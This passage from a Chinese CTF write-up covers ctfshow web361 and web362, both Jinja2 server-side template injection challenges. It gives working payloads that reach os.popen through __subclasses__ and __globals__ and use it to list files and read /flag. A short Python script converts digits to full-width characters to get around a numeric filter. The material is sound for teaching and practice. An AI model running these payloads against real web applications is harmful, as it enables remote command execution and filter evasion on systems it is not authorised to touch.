 [![](https://xzfile.aliyuncs.com/media/upload/picture/20221216150003-43af4db2-7d0f-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221216150003-43af4db2-7d0f-1.png)

输出132

然后利用`. init .globals`来找os类中的。init初始化，globals全局查找

```
?name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__}}
```

其中能看到popen，于是利用其来执行命令

```
?name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('ls').read()}}
```

payload:

```
?name={{"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

### ctfshow web362

随便试了试没发现过滤了啥

然后提交一下上一道题的payload，失败了 回显一个哭脸

查了一下 原来是过滤了数字

又查了查ssti过滤数字，找到了一个数字替换的脚本

将数字替换成全角数字

```
def half2full(half):  
    full = ''  
    for ch in half:  
        if ord(ch) in range(33, 127):  
            ch = chr(ord(ch) + 0xfee0)  
        elif ord(ch) == 32:  
            ch = chr(0x3000)  
        else:  
            pass  
        full += ch  
    return full  
t=''
s="0123456789"
for i in s:
    t+='\''+half2full(i)+'\','
print(t)
```

替换完了之后的payload

```
?name={{"".__class__.__bases__[０].__subclasses__()[１３２].__init__.__globals__['popen']('cat /flag').read()}}
```
